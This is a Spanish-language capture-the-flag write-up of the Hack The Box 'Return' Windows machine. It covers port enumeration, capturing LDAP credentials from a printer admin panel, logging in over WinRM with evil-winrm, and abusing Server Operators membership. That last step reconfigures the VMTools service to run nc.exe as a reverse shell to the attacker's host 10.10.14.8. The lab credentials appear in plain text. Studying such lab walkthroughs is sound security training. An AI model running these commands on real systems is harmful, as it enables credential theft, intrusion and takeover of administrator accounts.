







Return es una máquina Windows que cuenta con un panel de administración de impresora de red que almacena las credenciales LDAP. Estas credenciales se pueden capturar ingresando un servidor LDAP malicioso que permite establecerse en el servidor a través del servicio WinRM. Se descubrió que el usuario formaba parte de un grupo de privilegios que se aprovechó aún más para obtener acceso al sistema.


 
# Enumeración


Iniciaremos por enumerar los puertos abiertos, asi como  los servicios y versiones que se ejecutan en los puertos abiertos, esto lo realizaremos con la herramienta de `nmap`

```php

53/tcp    open  domain        syn-ack Simple DNS Plus
80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0
|_http-title: HTB Printer Admin Panel
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-02-23 21:31:54Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack Microsoft Windows RPC
49671/tcp open  msrpc         syn-ack Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49675/tcp open  msrpc         syn-ack Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack Microsoft Windows RPC
49682/tcp open  msrpc         syn-ack Microsoft Windows RPC
49694/tcp open  msrpc         syn-ack Microsoft Windows RPC
59956/tcp open  msrpc         syn-ack Microsoft Windows RPC

```

## Puerto : 80

El el sitio web encontraremos lo que parece un servicio de impresora 



Teniendo encuentra que nosotros podemos tener manejo de a que servidor queremos que se conecte, haremos lo siguiente : 
- Nos pondremos a la escucha con `ncat` y luego en el sitio web cargaremos la información el sitio web 



Luego cargamos el sitio web y deberíamos obtener unas credenciales



Las credenciales que encontramos son : `svc-printer : 1edFg43012!!` las que usaremos para autenticarnos contra el servicio `winrm`

# Explotación

Antes de usar las credenciales y conectarnos a la maquina comprobaremos que las credenciales son validas.

```python
crackmapexec winrm 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```



En caso de que no tengamos un `Pwn3d!` al final entonces indicara que no tenemos o no podemos conectarnos. 
# Escalada de privilegios

Haciendo uso de `evil-winrm` y las credenciales podremos conectarnos a la maquina victima.

```python
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```



## User svc-printer

Enumerando con `net user svc-printer` encontraremos que el usuario actual pertenece al grupo de `Server Operators` 



Básicamente en este grupo podemos configurar un servicio que se encuentra corriendo, que es el servicio `VMTools`. Primero configuraremos y asignaremos una ruta que es nuestro binario malicioso para tener una shell como el usuario `administrator`.

En nuestro caso usaremos `nc.exe` para lo cual subiremos el binario.

```php
upload /usr/share/windows-binaries/nc.exe
sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.14.8 1234"
```

Luego le indicaremos la ruta y el servicio a donde queremos que se asocie, para luego ponernos a la escucha con `nc -lvp 1234`

Ahora pararemos el servicio y después lo iniciaremos de nuevo

```python
sc.exe stop VMTools
sc.exe start VMTools
```

## Usuario : Administrator

Si se hizo todo bien deberíamos de tener una shell como la siguiente:



### Segundo método

- [https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/](https://www.hackingarticles.in/windows-privilege-escalation-server-operator-group/)

# Recursos:
- [https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation)
